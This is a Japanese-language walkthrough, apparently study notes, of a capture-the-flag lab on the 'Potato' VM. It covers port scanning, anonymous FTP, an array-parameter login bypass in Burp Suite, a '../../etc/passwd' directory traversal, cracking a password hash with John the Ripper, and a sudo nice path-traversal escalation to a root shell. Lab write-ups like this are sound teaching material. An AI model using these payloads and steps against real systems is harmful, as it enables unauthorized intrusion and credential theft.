 ## 目的
- user.txtとroot.txtの中身を見る

## 準備
- PotatoOSの起動はヘッドレスモードでいい
## 実践 343~

### ポートスキャンまで同じ
- `sudo nmap -A -p- $IP`
  - -Aは-sV,-sC,-Oの３つのスクリプトを合わせたもの
  - 22,80,2112の3つのポートが空いているのがわかる
  - ポートの各サービスを調べる。ftpのファイルやユーザ名などわかる
    

### 2112ポートの攻略
  - ftpでファイルを取得
  - ftpコマンドはParrotOSにはデフォルトで入っていないので、一度ネットワークをNATにして、ftpコマンドをaptで得る。取得後はネットワークをローカルホストに戻す
  - `sudo apt update`, `sudo apt install ftp`
  - `ftp $IP ポート番号`
  - user:`anonymous`, password:` ` 入力後にプロンプトが返ってくる
  - lsコマンドでファイルがわかる
  - getコマンドでファイルを取得後にexitで抜ける
  - index.phpを見ると認証に欠陥があることがわかる 

### (補足)2112ポートの攻略
- dirコマンドでもわかる
- ファイルを一括で取得
- `mget *`


### fileコマンドで危険なファイルかもしれないので中身を確認
  - file ファイル名
  - ソースの認証部分を読むとパスワード書いてあることがわかる

### gobuster
- 通常には見えない隠しサイトを探してくる 
- `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`
  - `dir`はつけないとエラーになる
  - `$IP`だとエラーになる
  - サイトを見つけたいのでディレクトリを探すので`-x`はいらない
- `/admin`という興味深いディレクトリがある 

### Webブラウザで確認
  - `192.168.56.101/admin`
  - 確認したら閉じる

### BurpSuiteで認証
- BurpSuitはプロキシサーバの役割を持ちhttpリクエストを書き換える効果がある
- htmlのソースを見ると、postメソッドが使われているので、BurpSuitを使って送信を書き換える
  - intercept is on にすると、パケットを送信せずに止めておくモードになる 
- ターミナルで`burpsuite`と入力、またはOSのMenuからBurpSuiteを起動
- 全部デフォルトでOK 
- proxy -> intercept is off -> open browser 
- ブラウザを起動した状態で192.168.56.101/adminでサイトに移動したら
- `intercept on` にする
- userを`admin`とpasswordを`test`と入力してlogin
- HTTPリクエストが表示されるので、一番下を `password[]=test`と書き直す
- 一番左のForwardボタンを押す
- 成功すると、Admin areaサイトに切り替わる
- `Intercept is off`にするとマウスで操作できる

### BurpSuiteでディレクトリリバーサル
- ディレクトリリバーサルとはリンクのパスで一度ルートに移ってから、目的のファイルにアクセスすること
- Logsに移動する
- `intercept is on`にする
- どれでもいいが、log_03.txtにボタン押して、Get the logを押す
- BurpSuiteがhttpリクエストをキャプチャする。`file=log_03.txt`これは、このディレクトリにある、log_03.txtファイルを読み込んでいると考えられる、これならディレクトリ トラバーサルができるかもしれない。
- `file=log_03.txt`を以下のように書き直す。これはリクエストを利用して、ディレクトリリバーサルをしている
  - `file=../../../../../etc/passwd`と書き直してForwardボタンを押す
- 表示をコピーする

### John the ripperで使うファイルを作る
- 新しいターミナルを開けて`cat > pass.txt` ここでペーストして、ctrl + d　で抜ける
- シェルの使えるユーザを探す。ファイルを見るとwebadminがシェルを使えて、パスワードのハッシュ値があるのでそれを解析する
- `cat pass.txt | grep -P 'sh$' | grep webadmin > hash.txt`

### John the ripper
  - OSのMenuからjohnを検索して起動する 
  - 本ではrockyou.txtを使っているが、ファイルは見つからないのでjohn.lstを使う
  - `sudo john hash.txt --wordlist=/usr/share/wordlists/john.lst`
    - `-w=/usr/~`でもOK
    - 過去に一度暗号を解読していると表示されないので以下のようにする
    - `sudo john hash.txt --show` 

### sshでリモートに接続
- `ssh webadmin@192.168.56.101`
- password `dragon`
- lsコマンドでuser.txtがあるので１つ目のflagを取得、ただし中身が変換されているので直す
- `cat user.txt | base64 -d`

### (おまけ)Linpeasを送って、実行してみる
- `sudo scp linpeas.sh webadmin@192.168.56.101:/tmp`
- `chmod +x linpeas.sh`
- `./linpeas.sh > /home/webadmin/linpeas.log`

### userのroot権限を調べる
- `sudo -l`
- niceコマンドが引数`/notes/*`ディレクトリにあるファイルは全てルート権限で実行できるので、このコマンドを使って/bin/bashを実行する。GTFOBinsにも書いてあるので調べる。
- `/notes`ディレクトリを調べる。２つのスクリプトがある、パーミッションを調べるが所有者がrootでrootでしか、読み書き、実行はできない。`sudo -l`でしか実行できないので当然だが、、、、、

### root権限の取得(その1)
- ルート権限での実行なので当然、頭にsudoをつける
- notesはルートディレクトリの直下にあるので、ディレクトリリバーサルを利用して/bin/bashを呼び出す
- `sudo /bin/nice /notes/../bin/bash` 

### root権限の取得(その2)
- その1とは、一度ファイルにbin/bashを書き込んでいるか否かの違いだけ
```sh
cd /tmp
echo "/bin/bash" > rootbash.sh
chmod +x rootbash.sh
sudo /bin/nice /notes/../tmp/rootbash.sh
```

### root権限
- `cd /root`
- `ls`
- `cat root.txt`　２つ目のflagを取得 
